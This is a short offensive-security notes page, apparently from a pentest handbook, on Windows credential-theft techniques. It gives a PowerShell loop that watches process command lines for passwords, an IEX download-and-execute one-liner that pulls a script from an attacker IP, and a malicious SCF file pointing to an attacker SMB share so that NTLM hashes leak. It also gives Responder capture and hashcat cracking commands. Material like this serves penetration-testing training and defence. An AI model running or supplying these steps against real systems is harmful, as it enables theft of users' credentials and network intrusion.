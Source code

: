 ```yaml
---
description: >-
  Here we would talk about some nice-n-easy techniques which requires
  interaction with meatbags like million types of intercepting creds :3
---
```


# User-Interaction Attacks

## <mark style="color:yellow;">**Monitoring for Process Command Lines**</mark>

There may be scheduled tasks or other processes being executed which pass credentials on the command line. We can look for process command lines using something like this script below. It captures process command lines every two seconds and compares the current state with the previous state, outputting any differences.

```powershell
while($true)
{

  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2

}
```

Then we are hosting script in out machine at looking at the magic

```powershell
PS C:\> IEX (iwr 'http://13.13.13.13/procmon.ps1') 
```

## <mark style="color:yellow;">Malicious SCF file</mark>

An SCF file is a Windows Explorer shortcut used to execute commands. For intercepting hashes:

```bash
[Shell]
Command=2
IconFile=\\13.13.13.13\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

And then for our good-old-middleman Responder

```bash
sudo responder -I eth0
```

```sh
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```
